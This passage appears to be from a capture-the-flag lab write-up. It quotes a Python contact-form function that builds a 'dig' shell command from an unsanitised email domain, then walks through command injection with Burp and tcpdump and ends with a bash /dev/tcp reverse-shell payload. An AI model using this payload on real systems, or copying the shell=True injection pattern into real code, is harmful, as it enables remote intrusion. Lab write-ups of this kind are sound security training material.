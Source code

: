 ```
        return status

def issecure(email, ip):
    if not re.match(r"([A-Za-z0-9]+[.\-_])*[A-Za-z0-9]+@[A-Za-z0-9\-]+(\.[A-Za-z]{2,})", email):
        return 0
    else:
        domain = email.split("@", 1)[1]
        result = run([f"dig txt {domain}"], shell=True, stdout=PIPE)
        output = result.stdout.decode('utf-8')

        if "v=spf1" not in output:
            return 1
        else:
            <...SNIP...>
```

This file has two functions:  sendmessage(), and issecure()  
issecure checks if email specified is a valid email using regex pattern.  
it then uses subprocess.run to check the domain.  
What's intresting is that it runs os command dig:    
```
result = run([f"dig txt {domain}"], shell=True, stdout=PIPE)
```


## Exploiting command injection  

It runs os command, without proper sanitization meaning we can inject commands there most likely.  
Let's catch a request with burp sending contact form, and send it to repeater with ctrl+r.  

![obraz](https://github.com/user-attachments/assets/5871fabf-d586-4b39-8693-23cea4d1408b)

Now we can run tcpdump to watch for incoming pings in the background:  

![obraz](https://github.com/user-attachments/assets/ed97cb61-c2b5-4604-bf02-1cd4a2fe59d3)

Now we can inject commands into email parameter:  

![obraz](https://github.com/user-attachments/assets/12738363-27fb-4416-bfcf-22b10388c193)

Before sending it you need to select your whole command and press ctrl+u to URL encode it.  
Now we should get pings from the target machine which means we have Remote Code Execution.  

![obraz](https://github.com/user-attachments/assets/429964e8-6a43-4a22-8c20-a53441339c11)

All we need to do now is to find proper payload that will give us connection back.  
Payload I'll use is very simple but it works.  
```
bash -c 'bash -i >& /dev/tcp/10.10.14.10/9005 0>&1'
```
![obraz](https://github.com/user-attachments/assets/b9e6c864-750d-43aa-8b59-d8a7ce530522)

In the screenshot it's already encoded.  
